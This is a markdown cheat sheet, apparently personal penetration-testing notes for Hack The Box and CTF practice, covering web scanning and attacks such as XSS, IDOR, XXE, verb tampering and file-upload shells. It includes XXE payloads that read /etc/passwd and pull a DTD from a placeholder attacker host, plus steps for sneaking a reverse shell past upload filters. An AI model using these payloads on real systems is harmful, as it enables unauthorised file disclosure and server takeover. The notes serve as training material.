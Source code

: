 # Web 

# Scans

## nikto

![Pasted image 20220805160735](https://github.com/dbissell6/Shadow_Stone/assets/50979196/691cc2e9-20a5-4692-aa8f-5ff1b032b0f4)

## whatweb

![Pasted image 20220805160914](https://github.com/dbissell6/Shadow_Stone/assets/50979196/7a494fa9-737a-4f21-9cca-f0eab21d2e4c)


## Wordpress

```
wpscan --url http://pressed.htb
```
```
wpscan --url http://pressed.htb --enumerate ap -v
```

# Services
## Tomcat
common attack is uploading a .war to get a shell. This can be done with default tomcat creds or finding admin creds.


# Common Web Exploits

## XSS

XSS (Cross-Site Scripting) is an exploit that relies on the execution of unsanitized JavaScript code on a website. This code execution allows the attacker to capture information from other users who interact with the page, including their cookies.

In the context of HTB (Hack The Box) and CTFs (Capture The Flag competitions), if you know that an admin bot is going to interact with a page, XSS may be a viable option for exploitation.

There are three variants of XSS:

    Stored/Persistent: In this variant, the malicious code is stored in the backend database and will affect any user who visits the site where the code is displayed.

    Reflected: Reflected XSS is similar to stored XSS, but the malicious code is not stored persistently. Instead, it is embedded in a URL or input field and is only triggered when the user interacts with it.

    DOM-based: DOM-based XSS exploits vulnerabilities in the Document Object Model (DOM) of a web page. The attack occurs when the client-side JavaScript code manipulates the DOM incorrectly, allowing an attacker to inject and execute malicious code.


Below is an example of code that could be used to test
```
<script>alert(window.origin)</script>
```
a pop up (below) would confirm the presence of XSS

<img width="737" alt="Screen Shot 2022-09-18 at 8 45 08 PM" src="https://github.com/dbissell6/Shadow_Stone/assets/50979196/81044e3b-f524-4f48-8b9d-9fed7a9ca1ac">

## Insecure Direct Object References(IDOR)

Identifying IDORs: Look for URL parameters or APIs with object references (e.g., ?uid=1 or ?filename=file_1.pdf). These references are often found in URL parameters, APIs, or other HTTP headers like cookies.

## XML External Entity (XXE) Injection
The first step in identifying potential XXE vulnerabilities is finding web pages that accept an XML user input. 

### Local File Disclosure example

![image](https://github.com/dbissell6/Shadow_Stone/assets/50979196/bb634f91-a68b-4701-bf77-34d899d82685)

```
<!DOCTYPE email [
  <!ENTITY new_ent SYSTEM "file:///etc/passwd">
]>
```
Define a new external entity
![image](https://github.com/dbissell6/Shadow_Stone/assets/50979196/a7c89b0a-6319-4dd8-9c0e-74c5dd6a0b45)

### PHP wrappers
some files may contain characters that will break the request. Can use a PHP wrapper to base64 encode

```
<!DOCTYPE email [
  <!ENTITY new_ent SYSTEM "php://filter/convert.base64-encode/resource=index.php">
]>
```

### Error Based XXE

Create xxe.dtd file and host it
```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">
```
![image](https://github.com/dbissell6/Shadow_Stone/assets/50979196/8ff45e34-c8a4-4b1d-a109-8702d1d9f00b)

```
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %error;
]>
```
![image](https://github.com/dbissell6/Shadow_Stone/assets/50979196/767e5ec0-9ae1-494e-8aa8-3c00af5900c6)


### RCE with XXE
If PHP expect module is enabled(not likley)

## HTTP Verb Tampering
A web server's authentication configuration may be limited to specific HTTP methods, which would leave some HTTP methods accessible without authentication. Exploiting HTTP Verb Tampering vulnerabilities is usually a relatively straightforward process. We just need to try alternate HTTP methods to see how they are handled by the web server and the web application. 

To show what options are available
```
curl -i -X OPTIONS http://SERVER_IP:PORT/
```
Can change request methods easily in burp by right clicking

![image](https://github.com/dbissell6/Shadow_Stone/assets/50979196/ade0f33a-3cf7-42d0-a7bd-5c49b4a81970)


## File Upload attacks

Want to upload a file to a server to get a reverse shell. Typically there are 4 kinds of bolcks, client side validation, Whitelist, BlackList, Type filters.

Have to be able to find and access the file after the upload.

### Example
Try to upload shell and fail


![image](https://github.com/dbissell6/Shadow_Stone/assets/50979196/74940380-72a4-42f2-b5fa-0d7a64609717)

Send a real image that will get accepted. Intercept the request. remove the image and input the shell. GIF added to evade type filter. File name extentions to bypass black and white list. 

![image](https://github.com/dbissell6/Shadow_Stone/assets/50979196/99660514-1dc5-45bd-8f3b-3e8aa4e36e09)

Visit page to get shell
![image](https://github.com/dbissell6/Shadow_Stone/assets/50979196/81e70f69-8917-4738-89ab-ed3351d084fe)

Can use Burp intruder to fuzz for accpeted extentions

![image](https://github.com/dbissell6/Shadow_Stone/assets/50979196/5d72e0d5-ea19-4ce8-bf36-a1a1e21aa40d)


![image](https://github.com/dbissell6/Shadow_Stone/assets/50979196/2c72ddf6-4c38-46ec-9e35-bfe524713992)

### payload list for php
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Extension%20PHP/extensions.lst

